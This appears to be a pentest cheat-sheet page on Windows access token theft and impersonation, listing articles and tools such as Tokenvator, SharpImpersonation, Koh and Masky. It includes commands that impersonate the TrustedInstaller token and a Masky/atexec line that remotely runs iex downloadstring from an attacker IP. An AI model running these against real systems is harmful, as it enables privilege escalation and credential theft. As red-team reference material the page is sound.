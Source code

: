 # Token Manipulation

- [https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b](https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b)
- [https://securitytimes.medium.com/understanding-and-abusing-process-tokens-part-i-ee51671f2cfa](https://securitytimes.medium.com/understanding-and-abusing-process-tokens-part-i-ee51671f2cfa)
- [https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962](https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962)
- [https://xret2pwn.github.io//Access-Token-Part0x01/](https://xret2pwn.github.io//Access-Token-Part0x01/)
- [https://xret2pwn.github.io//Building-Token-Vault-Part0x02/](https://xret2pwn.github.io//Building-Token-Vault-Part0x02/)
- [https://rastamouse.me/token-impersonation-in-csharp/](https://rastamouse.me/token-impersonation-in-csharp/)
- [[PDF] Technical Analysis of Access Token Theft and Manipulation (McAfee)](https://www.mcafee.com/enterprise/en-us/assets/reports/rp-access-token-theft-manipulation-attacks.pdf)

![Access Token Theft and Manipulation (McAfee)](/.gitbook/assets/011.png)




## Trusted Installer Token

- [https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1)
- [https://github.com/rweijnen/Posh-Snippets/blob/master/DCOM-FixUp.ps1](https://github.com/rweijnen/Posh-Snippets/blob/master/DCOM-FixUp.ps1)

```
PS > Install-Module -Name NtObjectManager -Confirm:$false
PS > Restart-Service TrustedInstaller
PS > $procId = (Get-Process TrustedInstaller).Id
PS > $token = Get-NtTokenFromProcess -ProcessId $procId
PS > $current = Get-NtThread -Current -PseudoHandle
PS > $ctx = $current.Impersonate($token)
PS > $impToken = Get-NtToken -Impersonation
PS > $impToken.Groups
```




## Tools

- [https://github.com/dievus/msImpersonate](https://github.com/dievus/msImpersonate)
- [https://github.com/magnusstubman/tokenduplicator](https://github.com/magnusstubman/tokenduplicator)



### Tokenvator

- [https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/](https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/)
- [https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-release-2/](https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-release-2/)
- [https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)



### SharpImpersonation

- [https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)
- [https://github.com/S3cur3Th1sSh1t/SharpImpersonation](https://github.com/S3cur3Th1sSh1t/SharpImpersonation)

```
PS > .\SharpImpersonation.exe list [elevated]
PS > .\SharpImpersonation.exe list user:PC01\snovvcrash binary:"powershell.exe whoami"
PS > .\SharpImpersonation.exe list user:PC01\snovvcrash technique:ImpersonateLoggedOnuser
```



### Koh

- [https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6](https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6)
- [https://github.com/GhostPack/Koh](https://github.com/GhostPack/Koh)



### Masky

- [https://z4ksec.github.io/posts/masky-release-v0.0.3/](https://z4ksec.github.io/posts/masky-release-v0.0.3/)
- [https://github.com/Z4kSec/Masky](https://github.com/Z4kSec/Masky)
- [https://threadreaderapp.com/thread/1563247630129725442.html](https://threadreaderapp.com/thread/1563247630129725442.html)

Combining with AD CS abuse:

{% content-ref url="/pentest/infrastructure/ad/ad-cs-abuse/README.md" %}
[README.md](README.md)
{% endcontent-ref %}

```
$ pipx install -f 'git+https://github.com/Z4kSec/Masky.git'
$ masky -d tinycorp -u snovvcrash -p 'Passw0rd!' -ca 'CA01.megacorp.local\CorpCA' -dc-ip 192.168.1.11 10.10.13.37
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'powershell iex(new-object net.webclient).downloadstring(""""http://10.10.13.37/Invoke-Masky.ps1"""");Invoke-Masky /ca:CA01.megacorp.local\CorpCA'
```



### Impersonate

- [https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/](https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/)
- [https://github.com/sensepost/impersonate](https://github.com/sensepost/impersonate)
